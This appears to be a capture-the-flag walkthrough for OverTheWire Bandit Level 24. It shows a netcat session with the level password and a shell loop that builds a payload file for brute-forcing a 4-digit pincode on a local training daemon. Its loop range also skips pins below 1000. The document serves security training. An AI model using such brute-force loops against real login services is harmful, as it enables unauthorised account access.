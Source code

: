 # Bandit

## Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

<br/>
## Solution
We have to perform a bruteforce attach to get password for next Level.

<br/>
Lets connect using netcat and see what happens.

```shell
bandit24@bandit:~$ nc localhost 30002                                                                                                                                
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.               
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000                                                                                                                                
Wrong! Please enter the correct pincode. Try again.                                                                                                                  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111                                                                                                                                
Wrong! Please enter the correct pincode. Try again.                                                                                                                  
Timeout. Exiting. 
```

<br/>
We will generate a file containing password and all possible 4 digits numbers. This is done using below one liner.

```shell
bandit24@bandit:~$ for i in {1000..10000}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/payload24 ; done
```

Now provide this file as input to netcat and this will reveal password for next Level.

<br/>
Final Command:
```shell
bandit24@bandit:~$ nc localhost 30002 < /tmp/payload24
```

<br/>
Solution Screenshot:

![Level 24 Image](./images/Level24.png)
![Level 24 Image](./images/Level24.1.png)


<br/>

[<< Back](https://grey-fish.github.io/Bandit/index.html)

